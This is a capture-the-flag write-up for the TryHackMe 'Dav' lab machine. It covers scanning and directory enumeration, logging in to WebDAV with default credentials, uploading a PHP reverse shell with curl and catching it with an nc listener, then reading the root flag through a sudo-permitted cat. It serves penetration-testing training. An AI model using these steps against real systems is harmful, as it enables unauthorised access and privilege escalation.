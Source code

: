 # THM - Dav

## IP address
10.10.98.127

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.98.127
```
- Results shows that only port ```80``` is open:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.98.127
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 14:05 UTC
Nmap scan report for ip-10-10-98-127.eu-west-1.compute.internal (10.10.98.127)
Host is up (0.00060s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B1:99:F9:9A:AE (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.22 seconds
```

2. Visiting ```10.10.98.127```, you will realised its a Apache Ubuntu default page. Lets try running gobuster:
```bash
gobuster dir -u http://10.10.98.127 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-Results show a page called ```/webdav``` but its a ```401``` page, meaning login is probably required.
```
/webdav (Status: 401)
/server-status (Status: 403)
```

3. Some research shows that the default password for ```webdav``` is ```wampp:xampp```

4. So after logging in you will see a ```passwd.dav``` file which shows:
```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

5. After some research, seems like ```webdav``` is vunerable to reverse shell. So lets edit our handy resverse php shell from [Php Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).


6. Remember to set your listener on another terminal ```nc -lvnp 9001```.

7. Now lets run ```curl``` to remotely upload our ```shell.php```:
```bash
curl http://10.10.98.127/webdav/shell.php -u wampp:xampp --upload-file shell.php
```
-Results shows that the upload was successful:
```
root@kali:~# curl http://10.10.98.127/webdav/shell.php -u wampp:xampp --upload-file shell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.98.127 Port 80</address>
</body></html>
```

- When we refresh our browser we will see that the directory has a new ```shell.php``` file.

- Clicking on it we should now have a shell.
```
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.236.165] from (UNKNOWN) [10.10.98.127] 43232
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:36:50 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

8. Once again lets make the shell stable:
- type the following:
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

- press ```ctrl+z``` to bring shell to foreground

- type:
```bash
stty raw -echo
fg
```

- press ```Enter``` a few times to get back the shell

- type:
```bash
export TERM=xterm
```

- press ```crtl+l``` to get a clean and stable shell.

9. Once its done, we can proceed to capture our first flag:
```bash
www-data@ubuntu:/$ cat /home/merlin/user.txt
```
## Privilege Escalation

10. Lets see what we can run as sudo by running ```sudo -l```:
```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

11. Wow. So we can just do cat and get root file:
```bash
www-data@ubuntu:/$ sudo cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxx
```
